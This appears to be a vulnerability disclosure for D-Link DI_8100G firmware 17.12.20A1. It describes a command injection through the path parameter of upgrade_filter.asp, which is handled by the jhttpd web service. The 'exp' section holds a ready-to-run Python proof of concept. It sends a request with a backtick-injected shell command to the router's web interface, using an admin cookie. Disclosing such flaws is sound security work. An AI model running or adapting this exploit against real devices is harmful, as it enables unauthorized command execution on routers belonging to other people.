


# DI_8100G-17.12.20A1 Command_Injection
# D-link:DI_8100G-17.12.20A1 Command Injection

# Firmware information
Firmware download address:http://www.dlink.com.cn/techsupport/download.ashx?file=5492

# Description:
A vulnerability was discovered in DI_8100G-17.12.20A1, which has been classified as critical. This issue affects the frontend functionality of the upgrade_filter.asp file, which calls the sub_47A60C function within the web service jhttpd. An attacker manipulating the path parameter can potentially lead to command injection.

# Analyse:



The function has a system command execution vulnerability. When concatenating the command, it does not perform adequate string checks; it only checks whether the path parameter exists and whether the first seven characters of the path value are "http://". If the path value is concatenated, it can result in command execution.





# exp

```
import requests

burp0_url = "http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/004.txt`"
burp0_cookies = {"gw_userid": "admin,gw_passwd=3AD6F40535A864417D03912DCA74EDBD"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Referer": "http://192.168.0.1/manage_2.html", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```


